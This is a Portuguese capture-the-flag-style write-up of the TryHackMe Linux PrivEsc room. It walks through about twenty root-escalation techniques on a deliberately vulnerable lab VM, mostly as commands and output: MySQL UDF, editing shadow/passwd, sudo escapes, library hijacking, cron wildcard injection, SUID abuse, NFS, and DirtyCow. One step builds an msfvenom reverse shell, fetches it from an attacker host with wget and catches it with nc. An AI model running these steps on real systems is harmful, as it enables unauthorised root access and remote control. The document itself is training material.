# TryHackMe — Linux PrivEsc
## Sala Completa de Escalação de Privilégios em Linux (Tasks 01–20)

**Categoria:** Linux / Escalação de Privilégios / Multi-técnica
**Dificuldade:** Fácil a Médio (treinamento progressivo)

---

## 🎯 Objetivo

Esta sala não gira em torno de uma única falha, mas sim de um **tour guiado por praticamente todas as técnicas clássicas de escalação de privilégios em Linux**. Uma máquina virtual Debian intencionalmente mal configurada foi disponibilizada, e o objetivo era, a partir de um usuário sem privilégios (`user`), aplicar cada técnica na prática — exploração de serviços vulneráveis, permissões fracas em arquivos críticos, abuso de `sudo`, variáveis de ambiente, cron jobs, binários SUID/SGID, arquivos de histórico e configuração, chaves SSH vazadas, NFS mal configurado e exploits de kernel — até obter uma shell como **root** em cada cenário.

---

## 🔍 Passo 1 — Acesso Inicial via SSH

```bash
ssh -oHostKeyAlgorithms=+ssh-rsa user@10.65.185.127
```



```
Linux debian 2.6.32-5-amd64 #1 SMP Tue May 13 16:34:35 UTC 2014 x86_64
user@debian:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
```

Acesso confirmado como `user`, um usuário comum sem privilégios administrativos. A versão do kernel (2.6.32) e do Debian, ambas bastante antigas, já sinalizavam múltiplas superfícies de ataque em potencial.

---

## 🔍 Passo 2 — Exploração de Serviço Vulnerável: MySQL UDF

O MySQL rodava localmente como root com senha vazia. Um exploit clássico de **User Defined Function (UDF)** foi utilizado para executar comandos arbitrários como root através do banco de dados:

```sql
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
mysql> select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```



```
user@debian:~/tools/mysql-udf$ /tmp/rootbash -p
rootbash-4.1# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root)...
rootbash-4.1# whoami
root
```

A função `do_system` copiou o `/bin/bash` para `/tmp/rootbash` e aplicou o bit **SUID**, permitindo obter uma shell com privilégios de root via `-p` (preserve privileges).

---

## 🔍 Passo 3 — Permissões Fracas: Leitura do `/etc/shadow`

```bash
ls -l /etc/shadow
cat /etc/shadow
```



```
-rw-r--rw- 1 root shadow 837 Aug 25  2019 /etc/shadow
root:$6$Tb$euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
```

O arquivo `/etc/shadow` estava com permissão de escrita e leitura para "outros" (`rw-r--rw-`). O hash da senha de root foi extraído e submetido ao **John the Ripper** com a wordlist `rockyou.txt`:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```
password123      (root)
```

A senha de root foi quebrada com sucesso: **`password123`**.

---

## 🔍 Passo 4 — Permissões Fracas: Escrita no `/etc/shadow`

Como o mesmo arquivo também era **gravável**, uma abordagem ainda mais direta era gerar um novo hash e sobrescrever a linha do root:

```bash
mkpasswd -m sha-512 admin123
nano /etc/shadow
su root
```



```
root@debian:/home/user/tools/privesc-scripts# id
uid=0(root) gid=0(root) groups=0(root)
```

Substituindo o hash da linha `root` em `/etc/shadow` pelo hash gerado para `admin123`, foi possível autenticar diretamente como root com `su root`.

---

## 🔍 Passo 5 — Permissões Fracas: Escrita no `/etc/passwd`

De forma semelhante, o arquivo `/etc/passwd` também estava gravável (`-rw-r--rw-`):

```bash
ls -l /etc/passwd
openssl passwd admin
nano /etc/passwd
su root
```



```
root@debian:/home/user/tools/privesc-scripts# id
uid=0(root) gid=0(root) groups=0(root)
```

A linha do usuário `root` em `/etc/passwd` foi editada para incluir o hash gerado por `openssl passwd`, permitindo autenticação direta como root.

---

## 🔍 Passo 6 — Abuso de Regras de `sudo`

```bash
sudo -l
```


```
User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```

Vários desses binários possuem escapes de shell documentados no **GTFOBins**. O `vim` foi o escolhido:

```bash
sudo vim
```

```
root@debian:/home/user/tools/privesc-scripts# id
uid=0(root) gid=0(root) groups=0(root)
```

Dentro do `vim`, o comando `:!/bin/bash` (ou `:shell`) gerou uma shell interativa herdando os privilégios de root do `sudo`.

---

## 🔍 Passo 7 — Variáveis de Ambiente: `LD_PRELOAD` e `LD_LIBRARY_PATH`

O `sudo -l` também revelou que as variáveis `LD_PRELOAD` e `LD_LIBRARY_PATH` eram preservadas (`env_keep`) para a execução do Apache2 como root.

Uma tentativa via `LD_PRELOAD` falhou por restrição de execução do `ldd`:

```bash
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
sudo LD_PRELOAD=/tmp/preload.so lldd /usr/sbin/apache2
```

O caminho bem-sucedido foi via **`LD_LIBRARY_PATH`**, substituindo uma biblioteca compartilhada real (`libcrypt.so.1`) usada pelo Apache2:

```bash
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp apache2
```



```
root@debian:~/tools/privesc-scripts# id
uid=0(root) gid=0(root) groups=0(root)
```

Como o Apache2 rodava com `sudo` preservando `LD_LIBRARY_PATH`, a biblioteca maliciosa foi carregada em vez da original, executando código arbitrário como root.

---

## 🔍 Passo 8 — Cron Jobs: Script Gravável

```bash
cat /etc/crontab
```

```
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```

```bash
locate overwrite.sh
ls -l /usr/local/bin/overwrite.sh
nano /usr/local/bin/overwrite.sh
```



```
-rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh
```

O script `overwrite.sh`, executado periodicamente por root via cron, tinha permissão de **escrita para "outros"**. Ele foi sobrescrito para copiar `/bin/bash` para `/tmp/rootbash` com bit SUID, aguardando a próxima execução do cron.

---

## 🔍 Passo 9 — Cron Jobs: Sequestro da Variável `PATH`

```bash
cat /etc/crontab | grep PATH
```

```
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```



```
rootbash-4.1# /tmp/rootbash -p
rootbash-4.1# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root)...
```

O `PATH` definido no `/etc/crontab` incluía o **diretório home do usuário** antes dos diretórios padrão do sistema. Como o `compress.sh` (executado por root) chamava um binário sem caminho absoluto, foi possível criar um executável malicioso com o mesmo nome no diretório home, sequestrando a execução e gerando novamente uma bash SUID em `/tmp/rootbash`.

---

## 🔍 Passo 10 — Cron Jobs: Wildcard Injection (`tar --checkpoint`)

Um cron job executava `compress.sh`, que por sua vez rodava `tar` com um **wildcard** (`*`) dentro de um diretório gravável pelo usuário. Isso permite injetar opções do `tar` disfarçadas de nomes de arquivo — técnica documentada no GTFOBins como **wildcard injection**.

Um payload reverse shell foi gerado com `msfvenom` e hospedado via servidor HTTP:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.129.38 LPORT=8888 -f elf -o shell.elf
sudo python -m http.server 8000
```

No alvo, o binário foi baixado e os arquivos de "checkpoint" do `tar` foram criados no diretório monitorado pelo cron:

```bash
wget http://192.168.129.38:8000/shell.elf
chmod +x /home/user/shell.elf
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```



```
nc -lnvp 8888
connect to [192.168.129.38] from (UNKNOWN) [10.65.185.127] 44373
id
uid=0(root) gid=0(root) groups=0(root)
```

Quando o cron job executou `tar * ...` dentro do diretório, o `tar` interpretou os arquivos `--checkpoint=1` e `--checkpoint-action=exec=shell.elf` como **opções de linha de comando**, executando o payload como root e devolvendo uma reverse shell.

---

## 🔍 Passo 11 — Binários SUID/SGID: Exploit Conhecido (Exim CVE-2016-1531)

```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```



```
-rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
```

A versão do **Exim** instalada era vulnerável ao **CVE-2016-1531** (escalação de privilégios local). Um exploit público para essa versão já estava disponível no diretório de ferramentas:

```bash
./cve-2016-1531.sh
```

```
[ CVE-2016-1531 local root exploit
sh-4.1# id
uid=0(root) gid=1000(user) groups=0(root)
```

O exploit abusou de uma configuração insegura no Exim para executar comandos com privilégios de root.

---

## 🔍 Passo 12 — Binários SUID: Injeção de Shared Object

```bash
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```



```
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
```

O binário SUID `suid-so` tentava carregar uma biblioteca compartilhada inexistente em `~/.config/libcalc.so`. Uma biblioteca maliciosa foi criada nesse exato caminho:

```bash
mkdir /home/user/.config
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
/usr/local/bin/suid-so
```

```
bash-4.1# id
uid=0(root) gid=1000(user) egid=50(staff) groups=0(root)...
```

Como o binário era SUID e carregava a biblioteca sem validar seu caminho, o código malicioso foi executado com privilégios elevados, gerando uma shell root.

---

## 🔍 Passo 13 — Binários SUID: Variáveis de Ambiente (PATH)

```bash
/usr/local/bin/suid-env
```

O binário tentava iniciar o serviço `apache2` chamando `service` sem caminho absoluto, herdando o `PATH` do usuário. Um script `service` malicioso foi criado no diretório atual:

```bash
gcc -o service /home/user/tools/suid/service.c
PATH=.:$PATH /usr/local/bin/suid-env
```



```
root@debian:~/tools/suid/exim# id
uid=0(root) gid=0(root) groups=0(root)...
```

---

## 🔍 Passo 14 — Binários SUID: Abuso de Recursos do Shell (Bash Functions)

O binário `suid-env2` era mais restritivo, mas ainda vulnerável ao abuso de **funções exportadas do Bash**:

```bash
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
/usr/local/bin/suid-env2
```



```
root@debian:~/tools/suid/exim# id
uid=0(root) gid=0(root) groups=0(root)...
```

Exportar uma função bash com o mesmo nome de um comando externo faz com que o shell priorize a função — técnica clássica derivada do Shellshock.

---

## 🔍 Passo 15 — Binários SUID: Abuso de Recursos do Shell (Bash Debugging / PS4)

Uma segunda técnica de abuso de shell utilizou o recurso de **depuração do Bash** (`SHELLOPTS=xtrace` + `PS4`) para injetar comandos executados a cada linha de script:

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
/tmp/rootbash -p
```



```
rootbash-4.1# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root)...
```

Como o script interno invocado pelo `suid-env2` era executado com `bash -x` (modo de depuração), o valor malicioso de `PS4` foi executado a cada linha, criando a bash SUID em `/tmp/rootbash`.

---

## 🔍 Passo 16 — Senhas e Chaves: Arquivo de Histórico (`.bash_history`)

```bash
cat .bash_history
```



```
mysql -h somehost.local -uroot -ppassword123
```

O histórico de comandos revelou uma senha digitada acidentalmente na linha de comando em vez de em um prompt seguro. A mesma senha (`password123`) já identificada anteriormente foi reutilizada com sucesso:

```bash
su root
```

```
root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```

---

## 🔍 Passo 17 — Senhas e Chaves: Arquivos de Configuração

```bash
cat /home/user/myvpn.ovpn
```

```
auth-user-pass /etc/openvpn/auth.txt
```



```bash
cat /etc/openvpn/auth.txt
```

```
root
password123
```

O arquivo de configuração do OpenVPN (`myvpn.ovpn`) referenciava um arquivo `auth.txt` contendo credenciais de root em **texto plano**, novamente confirmando a senha `password123`:

```bash
su root
```

```
root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```

---

## 🔍 Passo 18 — Senhas e Chaves: Chave Privada SSH Exposta

```bash
ls -l /.ssh
cat /.ssh/root_key
```



```
-rw-r--r-- 1 root root 1679 Aug 25  2019 root_key
```

A chave privada `root_key`, pertencente ao próprio root, estava com permissão de leitura para todos os usuários. Ela foi copiada para a máquina atacante e utilizada diretamente:

```bash
chmod 600 id_rsa
ssh -i id_rsa -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@10.65.185.127
```

```
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Acesso root obtido diretamente via SSH, sem qualquer exploração adicional.

---

## 🔍 Passo 19 — NFS Mal Configurado (`no_root_squash`)

```bash
cat /etc/exports
```

```
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
```

O diretório `/tmp` do alvo era exportado via **NFS** com a opção `no_root_squash`, permitindo que arquivos criados como root na máquina atacante mantivessem o UID 0 quando montados no alvo:

```bash
mkdir /tmp/nfs
mount -o rw,vers=3 10.65.185.127:/tmp /tmp/nfs
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
chmod +xs /tmp/nfs/shell.elf
```



```
bash-4.1# /tmp/shell.elf
bash-4.1# whoami
root
```

Como o compartilhamento NFS não aplicava *root squashing*, o binário criado como root na máquina atacante manteve o bit SUID e o UID 0 ao ser executado no alvo.

---

## 🔍 Passo 20 — Exploit de Kernel: DirtyCow (CVE-2016-5195)

Com o kernel desatualizado (2.6.32), múltiplos exploits públicos eram aplicáveis. O **DirtyCow** foi utilizado:

```bash
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
./c0w
```



```
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
```

```bash
/usr/bin/passwd
```

```
root@debian:/home/user# id
uid=0(root) gid=1000(user) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
```

O exploit tirou proveito de uma condição de corrida (*race condition*) na gestão de memória do kernel para sobrescrever o binário `/usr/bin/passwd`, injetando uma versão maliciosa que, ao ser executada, concede uma shell root.

---

## 🔍 Passo 21 — Scripts Automatizados de Enumeração

Após percorrer manualmente todas as técnicas anteriores, a sala também apresentou uma categoria de ferramentas que automatizam boa parte dessa enumeração: **LinEnum**, **linpeas** e **lse** (Linux Smart Enumeration).

```bash
cd tools/privesc-scripts/
ls
```

```
LinEnum.sh  linpeas.sh  lse.sh
```

```bash
./linpeas.sh
```


```
linpeas v2.5.6 by carlospolop

ADVISORY: linpeas should be used for authorized penetration testing and/or
educational purposes only. Any misuse of this software will not be the
responsibility of the author or of any other collaborator. Use it at your
own networks and/or with the network owner's permission.

Linux Privesc Checklist: https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist
```

Diferente das técnicas anteriores, que exigiam identificar manualmente cada vetor (permissões fracas, binários SUID, cron jobs, variáveis de ambiente, etc.), essas ferramentas automatizam a varredura do sistema e destacam automaticamente possíveis vetores de escalação — como os próprios `overwrite.sh`, `/etc/shadow` gravável, entradas de `sudo -l` e binários SUID explorados nos passos anteriores. Elas são um excelente ponto de partida em engajamentos reais, mas o valor deste treinamento estava justamente em entender manualmente o **porquê** de cada achado antes de confiar cegamente na saída automatizada de uma ferramenta.

---

## 📋 Técnicas Demonstradas

| # | Técnica | Resultado |
|---|---------|-----------|
| 02 | Exploração de serviço (MySQL UDF) | Root via `/tmp/rootbash` SUID |
| 03 | Leitura de `/etc/shadow` (permissão fraca) | Hash de root quebrado (`password123`) |
| 04 | Escrita em `/etc/shadow` (permissão fraca) | Root via `su root` |
| 05 | Escrita em `/etc/passwd` (permissão fraca) | Root via `su root` |
| 06 | `sudo -l` + GTFOBins (`vim`) | Shell root via `sudo vim` |
| 07 | `LD_LIBRARY_PATH` preservado no sudo | Root via biblioteca maliciosa |
| 08 | Cron job com script gravável | Root via `overwrite.sh` |
| 09 | Cron job com `PATH` sequestrável | Root via binário forjado no `$PATH` |
| 10 | Cron job com wildcard no `tar` | Reverse shell root via `--checkpoint-action` |
| 11 | SUID com exploit conhecido (Exim) | Root via CVE-2016-1531 |
| 12 | SUID com shared object ausente | Root via `libcalc.so` maliciosa |
| 13 | SUID com `PATH` sequestrável | Root via binário `service` forjado |
| 14 | SUID + abuso de função bash | Root via função `service` exportada |
| 15 | SUID + abuso de debug do bash (`PS4`) | Root via `/tmp/rootbash` |
| 16 | Senha em `.bash_history` | Root via `su root` |
| 17 | Credenciais em arquivo de configuração | Root via `su root` |
| 18 | Chave SSH privada exposta | Root via `ssh -i` |
| 19 | NFS com `no_root_squash` | Root via binário SUID montado |
| 20 | Exploit de kernel (DirtyCow) | Root via `/usr/bin/passwd` sobrescrito |
| 21 | Scripts automatizados de enumeração | LinEnum, linpeas e lse identificando os vetores anteriores |

---

## 📝 Resumo da cadeia de investigação

1. **Acesso inicial** → SSH como `user`, usuário sem privilégios
2. **Serviços vulneráveis** → MySQL rodando como root com senha vazia, explorado via UDF (`raptor_udf2.so`)
3. **Permissões fracas** → `/etc/shadow` e `/etc/passwd` legíveis e/ou graváveis por qualquer usuário
4. **Sudo mal configurado** → binários com `NOPASSWD` explorados via GTFOBins (`vim`)
5. **Variáveis de ambiente** → `LD_LIBRARY_PATH` preservado pelo sudo, permitindo injeção de biblioteca
6. **Cron jobs** → scripts graváveis, `PATH` sequestrável e wildcard injection no `tar`
7. **Binários SUID/SGID** → exploit público conhecido (Exim), shared object ausente, sequestro de `PATH` e abuso de recursos do bash (funções exportadas e modo de debug `PS4`)
8. **Senhas e chaves** → credenciais expostas em `.bash_history`, arquivos de configuração (`.ovpn`) e uma chave privada SSH de root com permissões incorretas
9. **NFS mal configurado** → `no_root_squash` permitindo criação de binários SUID de root via montagem remota
10. **Exploit de kernel** → DirtyCow (CVE-2016-5195) explorado devido à versão desatualizada do kernel
11. **Ferramentas de enumeração automatizada** → LinEnum, linpeas e lse demonstradas como forma de acelerar a identificação dos mesmos vetores explorados manualmente

Todas as 20 técnicas manuais resultaram, de formas distintas, na obtenção de uma shell com **`uid=0(root)`**.
